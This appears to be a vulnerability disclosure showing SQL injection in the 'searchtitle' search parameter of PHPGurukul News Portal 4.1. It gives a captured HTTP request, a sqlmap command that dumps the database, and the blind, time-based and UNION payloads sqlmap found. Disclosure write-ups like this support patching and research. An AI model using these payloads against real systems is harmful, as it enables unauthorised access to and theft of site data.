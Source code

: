 # News Portal - SQL Injection - 4
+ **Exploit Title:** News Portal - SQL Injection - 4
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7643
+ **Version:** 4.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
News Portal System  4.1 allows SQL Injection via the 'searchtitle' parameter in "http://localhost/newsportal/search.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/newsportal/search.php"
+ Write something
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /newsportal/search.php HTTP/1.1
Host: localhost
Content-Length: 51
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/newsportal/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=dfcdlcor0hrif7af2b2tjeejt6
Connection: close

searchtitle=%3Cscript%3Ealert%282%29%3C%2Fscript%3E
```

+ Use sqlmap to exploit. In sqlmap, use 'searchtitle' parameter to dump the database.
```
sqlmap -r r.txt -p searchtitle --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: searchtitle (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: searchtitle=<script>alert(2)</script>' OR NOT 1334=1334-- IgdK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchtitle=<script>alert(2)</script>' AND (SELECT 5245 FROM (SELECT(SLEEP(5)))PmjM)-- oAXp

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: searchtitle=<script>alert(2)</script>' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a7171,0x584943594746724871704b485a6b79775478485578665a66724a63614771616f59486a5441536e59,0x7171767071)-- -
---
[21:02:13] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:02:13] [INFO] fetching current database
current database: 'newsportal'
```
+ current database: `newsportal`

![Ekran görüntüsü 2024-04-01 040250](https://github.com/BurakSevben/CVEs/assets/117217689/33d760f2-e896-49df-ae8d-411aad55e335)
